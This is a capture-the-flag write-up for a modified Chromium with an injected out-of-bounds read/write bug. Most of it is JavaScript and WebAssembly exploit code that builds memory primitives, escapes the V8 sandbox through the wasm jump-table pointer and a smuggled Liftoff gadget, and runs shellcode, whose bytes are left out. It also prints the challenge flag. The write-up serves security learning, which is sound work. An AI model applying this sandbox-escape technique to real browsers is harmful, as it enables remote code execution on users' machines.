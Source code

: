 # Title

Übercaged

## Description

Oh, nice, OOB RW, this can't be tough to exploit, right? Right...?

- We are running modified version of the chromium browser. The challenge is to exploit introduced vulnerability, to read contents of /ubercaged/flag.txt. You can find already prebuilt and symbolized packages in x64.debug and x64.release. On the server we will use x64.release. You can fully reproduce server environment using presented dockerfile (`chall-docker`). Don't forget, that the container has access to the internet, so if you need you can send the flag to remote listener.
- If you really want to build chromium by yourself you can use provided docker under `build-chromium-docker`.

## Solution

You can find the full exploit here: [pwn.js](./writeup/pwn.js).

So, we have a modified version of the Chromium browser (`120.0.6099.228`), which has an out-of-bounds read/write vulnerability through custom `readAt`/`wrtieAt` array methods. A few years ago, that would have given us shellcode execution (almost) right away, but nowadays, it's a bit more complicated. In the latest Chromium versions, a V8 sandbox (ubercage) was introduced, which aims to prevent crafting arbitrary memory read/write primitives by "sandboxing" the JSObject heap. You can read more about it [here](https://chromium.googlesource.com/v8/v8.git/+/refs/heads/main/src/sandbox/README.md).

Anyways, let's start hacking.

First of all, let's build the `v8h_addrOf` primitive whose purpose is to leak the address of a given object. It is defined as follows:

```js
var compressed_address_extractor = []

// Get the offset of object inside v8's ubercage
function v8h_addrOf(obj) {
    compressed_address_extractor[0] = obj;
    return compressed_address_extractor.readAt(0).f2i().low();
}
```

We essentially achieve this primitive for "free" as the `readAt` function always works with primitive types, so even though we've saved an object, we can read it as if it was a number.

With this done let's work on `v8h_read64` and `v8h_write64` primitives. These primitives are constructed as it is usually done in the V8 exploitation world.

```js
// oob read/write arrays it consists of floats, to be able to read/write pointers as floats
var oob_array = [1.1, 2.2, 3.3, 4.4]
// Array whose elements ptr we'll corrupt to achieve caged arb read/write
var rw_array = [1.1, 2.2, 3.3, 4.4]

function v8h_read64(offset) {
    // Read the old value and update only the offset part
    let updated = (oob_array.readAt(12).f2i() & 0xffffffff00000000n) | offset.tag();
    // Backing "caged pointer" of the rw_array
    oob_array.writeAt(12, updated.i2f());
    return rw_array[0].f2i();
}

function v8h_write64(offset, value) {
    // Read the old value and update only the offset part
    let updated = (oob_array.readAt(12).f2i() & 0xffffffff00000000n) | offset.tag();
    // Backing "caged pointer" of the rw_array
    oob_array.writeAt(12, updated.i2f());
    rw_array[0] = value.i2f();
}
```

We define 2 arrays, `oob_array` and `rw_array`. The `oob_array` is used to corrupt the backing store of the `rw_array` which essentially allows us to read/write arbitrary memory (inside the sandbox).

Now that this is complete, we finally can work on escaping the Ubercage.

As the Ubercage is still a relatively new feature, not all of the code has been adapted to it. For example, the wasm object still uses some native pointers, that are reachable from the JSObject heap. We can use this to our advantage. One such pointer is the `jumptable_ptr` which allows us to achieve 2 things:

1. Find the address of the compiled wasm code
2. Get the pc control when a new function is called for the first time

Crafting a multishot `arb_write64` (uncaged) will require a little bit of work. We'll start by defining a number of wasm functions.

The first one will be used to "smuggle" a `mov QWORD PTR [rax], rdx` gadget into the liftoff-compiled function code:

```wat
(func $arb_write_gadget (export "arb_write_gadget")
  (result i64)
  i64.const 0x90909090_90108948 ;; mov QWORD PTR [rax], rdx;
)
```

The second one will be used to achieve one-shot arbitrary write outside of the sandbox:

```wat
;; We use this function to overwrite the beginning arb_write64 with the arb_write_gadget = mov QWORD PTR [rax], rdx;
(func $arb_write64_one_shot (export "arb_write64_one_shot")
  (param $addr i64)  ;; Address to write to (rax)
  (param $value i64) ;; 64-bit integer to write (rdx)
  (result i64)
  
  i64.const 0x90909090_90909090
)
```

The third one gives us a multi-shot arbitrary write primitive:

```wat
;; This one is the multishot version of the previous one
(func $arb_write64 (export "arb_write64")
  (param $addr i64)  ;; Address to write to (rax)
  (param $value i64) ;; 64-bit integer to write (rdx)
  (result i64)
  
  i64.const 0x90909090_90909090
)
```

And finally, the last 2 functions will be used as a shellcode buffer and a shellcode execution trigger:

```wat
;; This one is the location where we will write the shellcode
(func $shellcode_buffer (export "shellcode_buffer")
  (result i64)
  i64.const 0x90909090_90909090
)

;; This function will trigger the shellcode execution
(func (export "exec_shellcode")
  nop
)
```

With this in place, we can move on to the exploitation part.

We start by extracting the value of the `jumptable_ptr` and calculating the offsets of interest:

```js
const JUMP_TABLE_PTR_OFF = 0x40n;
let jumptable_ptr = v8h_read64(wasm_instance_offset + JUMP_TABLE_PTR_OFF);

// Offsets inside the compiled wasm code.
const ARB_WRITE64_ONE_SHOT_OFF = 0xb80n;
const ARB_WRITE64_GADGET_OFF = ARB_WRITE64_ONE_SHOT_OFF + 0x1an;
const ARB_WRITE64_OFF = 0xc00n;
const ARB_WRITE64_INSTR_TO_OVERWRITE_OFF = ARB_WRITE64_OFF + 0x18n;
const SHELLCODE_BUFFER_OFF = 0xc80n;

// Address of the "smuggled" gadget
let arb_write64_gadget_addr = jumptable_ptr + ARB_WRITE64_GADGET_OFF;
// Address of the instruction inside the `arb_write64` function that we want to overwrite with the `mov QWORD PTR [rax], rdx;` instruction
let arb_write64_instr_to_overwrite_addr = jumptable_ptr + ARB_WRITE64_INSTR_TO_OVERWRITE_OFF;
// Address of the shellcode buffer
let shellcode_buffer_addr = jumptable_ptr + SHELLCODE_BUFFER_OFF;
```

Next, we'll invoke the smuggled gadget by overwriting the `jumptable_ptr` with the address of the gadget, and calling the `arb_write64_one_shot` function. The parameters for this call are the address of the instruction inside the `arb_write64` we want to overwrite and the value of the gadget. We know that the first parameter will be passed in `rax`, and the second one in `rdx`.

As a result of this operation, the `arb_write64` function will be overwritten with the `mov QWORD PTR [rax], rdx;` instruction, essentially giving us an arbitrary write primitive.

```js
v8h_write64(wasm_instance_offset + JUMP_TABLE_PTR_OFF, arb_write64_gadget_addr - 5n);
arb_write64_one_shot(arb_write64_instr_to_overwrite_addr, 0x9090909090108948n);
```

Near the end, we can use newly crafted `arb_write64` primitive to write the shellcode to the `shellcode_buffer`:

```js
let shellcode = [
    ...
]

shellcode.forEach((value, index) => {
    arb_write64(shellcode_buffer_addr + BigInt(index * 8), value);
});
```

And finally, we can trigger the shellcode execution:

```js
// Jump to the shellcode
v8h_write64(wasm_instance_offset + JUMP_TABLE_PTR_OFF, shellcode_buffer_addr - 5n);
exec_shellcode();
```

Which will give us the flag.

N.B. In the challenge I've purposefully set the `V8_HAS_PKU_JIT_WRITE_PROTECT` to `0`, as PKU complicates exploitation process by actually making the memory mappings W^X, utilizing `pkey_mprotect`. You can read more about it [here](https://docs.kernel.org/core-api/protection-keys.html).

References

1. [V8 Sandbox (aka. Ubercage)](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit?usp=sharing)
2. [Google Chrome V8 CVE-2024-0517 Out-of-Bounds Write Code Execution](https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/)
3. [Abusing Liftoff assembly and efficiently escaping from sbx](https://retr0.zip/blog/abusing-Liftoff-assembly-and-efficiently-escaping-from-sbx.html)

## Flag

SAS{w1th_gr34t_p0wer_n0_mitig4t1on_c4n_b3_4_pr0bl3m}

**Solved by:** 7 teams